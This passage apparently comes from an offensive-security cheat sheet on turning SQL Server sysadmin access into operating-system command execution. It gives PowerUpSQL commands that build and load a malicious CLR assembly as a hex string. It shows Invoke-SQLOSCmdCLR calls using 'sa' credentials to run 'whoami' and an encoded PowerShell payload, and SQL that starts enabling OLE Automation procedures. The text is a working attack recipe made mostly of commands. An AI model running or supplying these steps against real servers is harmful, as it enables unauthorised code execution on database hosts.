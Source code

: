 		-- Cleanup 
		DROP PROCEDURE cmd_exec 
		DROP ASSEMBLY my_assembly
		```

		Reference: https://blog.netspi.com/attacking-sql-server-clr-assemblies/

- `PowerUpSQL`:

	1. Following command can be used to create C# code for the DLL, the DLL and SQL query with DLL as hexadecimal string:

	```powershell
	# PowerUpSQL
	Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile "runcmd" -OutDir "C:\Users\labuser\Desktop"
	```

	2. Import the stored procedure from the generated string:

	```sql
	-- HeidiSQL
	CREATE ASSEMBLY [NMfsa] AUTHORIZATION [dbo] FROM 0x4D5A90……
	```

	3. Below command can be used to list all the stored procedures added using CLR:

	```powershell
	# PowerUpSQL
	Get-SQLStoredProcedureCLR -Instance "SQLServer1" -Verbose
	```

	4. Use below for automated enabling, executing command and reading output using CLR assembly:

	```powershell
	# PowerUpSQL
	Invoke-SQLOSCmdCLR -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "whoami" -Verbose
	Invoke-SQLOSCmdCLR -Username "sa" -Password "Password1" -Instance "SQLServer1" -Command "powershell -e <base64encodedscript>" -Verbose
	```
 
#### Sysadmin to OS Service Account - Command Execution with OLE Automation Procedures

- `HeidiSQL`:

	```sql
	-- HeidiSQL
	-- Enable Ole Automation Stored Procedures 
	sp_configure 'show advanced options', 1;
	GO
	RECONFIGURE;
	GO
	sp_configure 'Ole Automation Procedures', 1; 
	GO
	RECONFIGURE;
	GO
